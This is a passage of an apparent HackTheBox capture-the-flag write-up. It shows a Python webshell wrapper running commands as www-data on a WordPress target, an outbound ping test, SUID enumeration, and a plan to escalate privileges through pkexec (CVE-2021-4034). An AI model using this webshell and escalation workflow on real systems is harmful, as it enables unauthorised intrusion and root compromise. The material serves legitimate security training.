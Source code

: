 This code is taking user input to take commands, and outputs the command output.

```bash
┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ python webshell_cmd.py
Enter the command to execute (or 'exit' to quit): id

Command Output:
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Enter the command to execute (or 'exit' to quit): ping 10.10.14.7 -c 3

Command Output:
PING 10.10.14.7 (10.10.14.7) 56(84) bytes of data.

&#8212; 10.10.14.7 ping statistics &#8212;
3 packets transmitted, 0 received, 100% packet loss, time 2030ms
```

This is working well, but not working for `ping` command.
As expected, the server seems to be blocking the outgoing traffics...


# Shell as `root`

### Enumeration

Let's check `sudo -l` command.

```bash
Enter the command to execute (or 'exit' to quit): find / -perm -4000 2>/dev/null

Command Output:
/usr/bin/at
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/pkexec
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
<SNIP>
```

I think `pkexec` is suspicious.
In 2021~2, `CVE-2021-4034` was an issue that `pkexec` can be exploited for privilege escalation.
